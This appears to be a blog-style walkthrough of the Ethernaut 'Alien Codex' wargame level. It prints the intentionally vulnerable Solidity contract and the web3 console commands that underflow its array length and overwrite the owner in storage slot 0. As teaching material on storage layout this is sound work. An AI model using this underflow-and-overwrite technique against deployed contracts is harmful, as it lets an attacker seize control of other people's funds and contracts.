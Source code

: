 # Ehternaut 19: Alien Code

Understanding storage

```apache
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }

  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
    codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

This exercise is about storage layout and overflow. It is stated that we need to claim ownership.

This smart contract implements the [ownable interface]([https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/access/Ownable.sol). When solidity compiles a smart contract it compiles the imports first. Meaning as well that the storage variables of the import claim the first storage slots. In our case `address private _owner;` claims storage slot 0. This will be important later.

I hope to work fully through with Ethernaut in the browsers developer console. First step seems obvious - to make the functions `record, retract, revise` work the assert statement of the modifier contacted needs to be true. In our case this means set contacted to true:

```apache
await contract.make_contact()
```

That was easy. Since I do not know what to record and what to revise, I try the retract function first

```apache
await contract.retract()
```

What happend now? This function changed the length of an array. This is done automatically with solidity normally and its no assembly code, so this is a bug! I know that dynamic arrays are stored in solidity that at the storage slot of the dynamic array is the length of the array. The elements are stored at keccac256(storage slot) upwards. So I want to check what is in the storage slot through ethernaut.

Arg. I needed to check before calling the retract function the content of the storage slot. I do this now on another instance of ethernaut. I execute the command:

```apache
await web3.eth.getStorageAt(contract.address, 1)
```

before the retract function call and receive **0x0000000000000000000000000000000000000000000000000000000000000000**

and after calling retract() and receive **0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff**

This means an underflow just happend here and our length is as long as the max value. It seems to be possible now that I can access any element, which might mean I can add my address to the ownable storage variable through this array - haha. But is this really possible?

```apache
await web3.eth.getStorageAt(contract.address, 0)
await contract.owner()
```

gives in my case 0x00000000000000000000000040055e69e7eb12620c8ccbccab1f187883301c30 before calling the function make_contact(), 0x00000000000000000000000140055e69e7eb12620c8ccbccab1f187883301c30 after calling make_contact().

The second call 0x40055E69E7EB12620c8CCBCCAb1F187883301c30. Here we see very nicley that the compiler pushed the address and the contact boolean together in the storage slot 0, from right to left in the word, in order of the variable appearance in code.

So I need to recreate storage location zero with my address with leading 10 bytes of zero values -> 20 0 hex. This will be the content of the revise function parameter. But what will be the index??

For this to answer I revisit the storage position of the elements of the dynamic array. The [solidity documentation](https://docs.soliditylang.org/en/v0.8.17/internals/layout_in_storage.html#mappings-and-dynamic-arrays) says:

> Assume the storage location of the mapping or array ends up being a slot\*\* **`p`** **after applying the storage layout rules. For dynamic arrays, this slot stores the number of elements in the array [...] **
>
> **Array data is located starting at** **`keccak256(p)`** \*\*and it is laid out in the same way as statically-sized array data would [...]

In short keccac256(storage slot 1) + index gives us access to the data. So how do we hack our exercise? If our length is now:

length: 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff

Assuming that I can have the length element, the question is where the array stores the value, and this is keccak256(1). When I now substract this form the length value I receive the maximum number of array data I can store, before an overflow happens.

And this is exactly what we want after the overflow what number comes then? 0. Bingo! this is the storage slot we want to overwrite.

```apache
web3.utils.BN('0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF')
  .sub(web3.utils.BN(web3.utils.soliditySha3(1)))
  .add(web3.utils.BN(1))
  .toString()
```

resulting in the value of `35707666377435648211887908874984608119992236509074197713628505308453184860938` This is our hacked position of the 0 storage slot ;-).

Time to call now the revise function:

```apache
await contract.revise('35707666377435648211887908874984608119992236509074197713628505308453184860938', '0x000000000000000000000001YOUR_EOA')
```

Done 🎉️🎉️🎉️🎉️🎉️🎉️
